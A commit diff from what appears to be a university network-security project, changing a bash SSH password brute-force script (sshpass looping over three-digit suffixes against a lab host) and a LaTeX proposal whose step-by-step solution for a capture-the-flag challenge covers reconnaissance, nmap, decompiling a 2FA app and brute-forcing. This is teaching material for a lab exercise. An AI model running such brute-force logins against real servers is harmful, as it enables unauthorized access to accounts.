

Before and after one commit to oskopek/netsec-report, a LaTeX paper (proposal.tex, which reads exploits/ssh_brute_force.txt): two parts of pages 3 and 5 of 7, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Refactored after trying out the challenge

```diff
--- a/exploits/ssh_brute_force.txt
+++ b/exploits/ssh_brute_force.txt
@@ -1,7 +1,11 @@
 #!/bin/bash
-adminuser="TODO: Set admin's username here"
-adminpass="TODO: Set first half of admin's pass here"
-for i in $(seq 0 999); do
-    echo "Trying $i"
-    sshpass -p "$adminpass$i" ssh "$adminuser@gugli"
-done
+function trylogin {
+    pass="${adminpass}$1"
+    echo "Trying $pass"
+    sshpass -p "$pass" ssh "$adminuser@gugli"
+}
+export adminuser="TODO: Set admin's username here"
+export adminpass="TODO: Set first half of admin's pass here"
+for i in $(seq 0 9); do trylogin "00$i"; done
+for i in $(seq 10 99); do trylogin "0$i"; done
+for i in $(seq 100 999); do trylogin "$i"; done
--- a/proposal.tex
+++ b/proposal.tex
@@ -230,7 +226,7 @@ We've decided that for such a big challenge three hints are not enough. That's
 why we moved the hints to the \texttt{/hints} URL path of the web server
 and made them more fine-grained.
 
-\section{Step-by-step instructions}
+\section{Step-by-step instructions}\label{sbs}
 
 \begin{figure}
     \begin{center}
@@ -242,10 +239,10 @@ and made them more fine-grained.
     \label{fig:diag}
 \end{figure}
 
-For a general overview of the different steps, see Figure \ref{fig:diag}.
+The tools you will need are available in \texttt{\textasciitilde/tools}. For a general overview of the different levels of the challenge, see Figure \ref{fig:diag}.
 
 \begin{enumerate}
-  \item Do network reconnaissance.
+  \item Do network reconnaissance to gain knowledge about the connected machines.
   \item Find the Server VM, enumerate all the open ports using nmap, figure
         out which services are running for each of the ports.
   \item Get user access to the company's server.
@@ -298,7 +295,8 @@ For a general overview of the different steps, see Figure \ref{fig:diag}.
       \item Steal the second half of admin's SSH password.
         \begin{enumerate}
           \item Find the 2FA app in the menu and download it.
-          \item Use a java decompiler and check out the algorithm.
+          \item Use a java decompiler and check out the algorithm:
+			\begin{center}\texttt{java -jar \textasciitilde/tools/jd-gui-1.4.0.jar}\end{center}
             Understand that there's no way to recover the needed secret, but
             the algorithm returns only three decimal digits!
           \item Brute-force the obtained password appended with a 2FA token
```
Also changed, not shown: exploits/xxe_exploit.txt (+1 -1 lines), proposal.pdf (added), proposal.tex (16 more changed lines).
